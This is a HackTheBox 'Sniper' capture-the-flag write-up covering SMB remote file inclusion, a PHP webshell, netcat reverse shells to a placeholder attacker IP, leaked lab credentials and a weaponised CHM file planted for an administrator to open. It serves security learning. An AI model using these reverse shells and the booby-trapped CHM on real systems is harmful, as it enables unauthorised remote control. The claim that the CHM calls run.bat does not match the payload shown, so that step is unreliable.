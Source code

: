 ```yaml
---
title: "HTB: Sniper"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Sniper](/assets/images/Sniper.PNG)

# Sniper

## Nmap Scan

```
Nmap scan report for 10.10.10.151
Host is up (0.15s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 53.78 seconds
```

## Initial Foothold

http://sniper.htb/blog/?lang=\\xx.xx.xx.xx\share\test.php is vulnerable to RFI over SMB.

We can set up a SMB server to exploit the RFI here:

Add to the bottom of /etc/samba/smb.conf:

```
[share]
path = /home/xxxx/share
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
```

Then, chmod the directory:

```
chmod 0555 /home/xxxx/share
```

We can use the webshell found at the following github:

https://github.com/WhiteWinterWolf/wwwolf-php-webshell

Now, by visiting http://sniper.htb/blog/?lang=\xx.xx.xx.xx\share\webshell.php we are able to upload file and execute commands!

The first thing we need to do is create a new folder _C:\TEMP_ and upload nc.exe to it.

From here, we are able to run the command:

```
C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe
```

Voila, we have a shell!

## Pivoting to User

While enumerating, we stumble upon some credentials held in C:\inetpub\wwwroot\user\db.php:

**chris:36mEAhz/B8xQ~2VM**

We can use a switch-shell with Powershell to get a semi-interactive shell:

```
function switch-psuser {

    Param(
        [Parameter(Position=0)]
        [ValidateSet("adminsystem","administrator")]
        $User = "adminsystem"
    )

    switch($User)
    {
        'adminsystem'   { $username = "domain\adminsystem" ; $pw = "yyy"}
        'administrator' { $username = "sniper\chris" ; $pw = "36mEAhz/B8xQ~2VM" }
    }

    $password = $pw | ConvertTo-SecureString -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
    New-PSSession -Credential $cred | Enter-PSSession
}
switch-psuser administrator
```

We can now run nc.exe since this shell can execute commands. However, we need to first grant this user permissions to access it using our webshell:
```
cacls C:\TEMP /e /p chris:f
cacls C:\TEMP\nc.exe /e /p chris:f
```
Now, we can run nc.exe and receive a shell:
```
C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe
```

Voila, we have user!

## Getting Root

We've got a note in C:/Docs that's semi helpful:

```
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```
Based on the note, it looks like whatever we drop in C:/Docs might be looked at by the administrator.

Also, in C:\Users\chris\Downloads, there's a file called instructions.chm.

A publically available exploit for chm files is available:

https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7

## Exploiting the CHM for Profit

We first need to unpack the chm file:

```
copy C:\Users\chris\Downloads\instructions.chm C:\TEMP
cd C:\TEMP
hh -decompile extract instructions.chm
cd extract
nc -nv xx.xx.xx.xx 4444 < a.html
```

Now, once we catch this on our machine, we can see what's in the HTML file:

```
<html>
<body>
<h1>Sniper Android App Documentation</h1>
<h2>Table of Contents</h2>

<p>Pff... This dumb CEO always makes me do all the shitty work. SMH!</p>
<p>I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.</p>
</body>
</html>
```

We can modify the PoC and place it in the body of our file. The end results is:

```
<html>
<body>
<h1>Sniper Android App Documentation</h1>
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=",nc,-nv xx.xx.xx.xx 4444">
 <PARAM name="Item2" value="273,1,1">
</OBJECT>

<SCRIPT>
x.Click();
</SCRIPT>
<h2>Table of Contents</h2>

<p>Pff... This dumb CEO always makes me do all the shitty work. SMH!</p>
<p>I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.</p>
</body>
</html>
```

Now, because we've asked it to call run.bat in our TEMP folder, we need to create a batch script for it to run:

```
echo C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe > C:\TEMP\run.bat
```

From here, we need to create a Project.hpp file to point hh.exe at when we recompile the chm file:

```
[FILES]
<PATH TO FILES>\a.html
```

Now, we copy the Project.hpp file and a.html to a windows machine and run:

```
hhc.exe <PATH TO FILES>\Project.hpp
```

We're given a Project.chm file in the same folder that held Project.hpp. We can copy this over to the victim machine, place it in C:\Docs and wait for it to return a shell to us!

```
C:\>whoami
whoami
sniper\administrator
```

